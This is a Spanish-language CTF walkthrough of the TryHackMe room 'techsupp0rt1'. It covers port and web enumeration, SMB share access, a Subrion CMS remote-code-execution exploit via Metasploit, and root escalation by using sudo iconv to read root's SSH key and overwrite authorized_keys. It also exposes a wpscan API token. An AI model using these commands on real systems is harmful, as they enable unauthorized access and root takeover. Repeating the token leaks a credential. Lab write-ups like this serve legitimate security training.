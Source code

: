 ```yaml
---
title: "techsupp0rt1"
description: "techsupp0rt1"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/techsupp0rt1

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.165.199
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502184416.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80,139,445 10.10.165.199
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502184506.png)

## Gobuster

````
gobuster dir -u http://10.10.165.199 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502185143.png)

## Buscar vulnerabilidades

````
wpscan --url http://10.10.165.199/wordpress/ --enumerate u,vp --plugins-detection aggressive --api-token=JEAjjAl4QgJHsvAsM4snXHmj5U0ezG0BzgX8LnzSg2U
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502192143.png)

## Crackmapexec

````
crackmapexec smb 10.10.165.199
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502184557.png)
Buscamos archivos compartidos

````
crackmapexec smb 10.10.165.199 --shares -u guest -p ""
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502192109.png)

# Fase de ataque

## SMB

````
smbclient -N //10.10.165.199/websvr
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502192719.png)
Contiene la contraseña de subrion

## Descifrar la contraseña

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502193842.png)
Buscar panel admin en subrion

````
gobuster dir -u http://10.10.165.199/subrion -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --status-codes-blacklist '301,404,302'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502193936.png)
Podemos iniciar sesion y tambien ver la version de subrion

## Buscar vulnerabilidades

````
searchsploit subrion
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502194054.png)
Encontramos un LFI

## Explotación

Encontramos un exploit en Github https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

Pero usaremos metaexploit

````
search subrion
````

````
use 0
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502195205.png)
Set options

````
run
````

\[-\] ==pwned!==

# Privilege Escalation

Dentro de /home podemos encontrar un usuariuo llamado scamsite
Abrimos wp-config.php en busca de credenciales: /var/www/html/wordpress/wp-config.php
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502200236.png)

## SSH

Probamos las credenciales
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502200413.png)
Login!

## Comprobamos privilegios

TIene privilegios en iconv, lo buscamos en https://gtfobins.github.io
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502200527.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502200520.png)
Se puede usar para leer archivos y escribir
Podriamos leer o escribir la clave privada en ssh

````
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/.ssh/id_rsa"
````

Creamos nuestra clave privada/publica

````
ssh-keygen -t rsa
````

La copiamos dentro de la maquina y la copiamos en el directorio de root

````
cat rsa.pub | sudo -u root iconv -f 8859_1 -t 8859_1 -o "/root/.ssh/authorized_keys"
````

Nos conectamos

````
ssh -i id_rsai root@10.10.165.199
````

\[+\] ==pwned!==
